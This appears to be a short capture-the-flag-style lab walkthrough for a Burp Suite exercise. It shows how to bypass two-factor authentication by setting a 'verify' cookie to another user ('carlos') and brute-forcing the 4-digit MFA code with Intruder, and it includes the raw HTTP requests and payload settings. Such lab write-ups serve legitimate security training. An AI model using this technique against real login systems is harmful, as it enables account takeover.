 ```bash
GET /login2 HTTP/1.1

with response of:

HTTP/1.1 200 OK

"Please enter your 4-digit security code"

Send this to Repeater
Change:

verify=wiener

to

verify=carlos

Send
You now requested a mfa-code for the user "carlos"
Log out
Log into your own credentials i.e. wiener:peter
Type in any incorrect pin i.e "2222"
Go to: Proxy -> HTTP history
Find the POST request that is sending the incorrect mfa-code:

POST /login2 HTTP/1.1

mfa-code=2222

Send to intruder
Use "wiener" new cookie for "carlos"

Cookie: session=TBqUq6l6ibGJWNNKtUBnNPr0ScHqFFPr; verify=carlos

mfa-code=§2222§

Go to: Payloads
Payload Sets
Payload type: Brute forcer
Payload Options[Brute forcer]
Character set: 0123456789
Start attack
There will be a status code of "302"
Right-click response -> "Show response in browser" -> Copy -> Paste in browser

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509182849.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509182916.png)
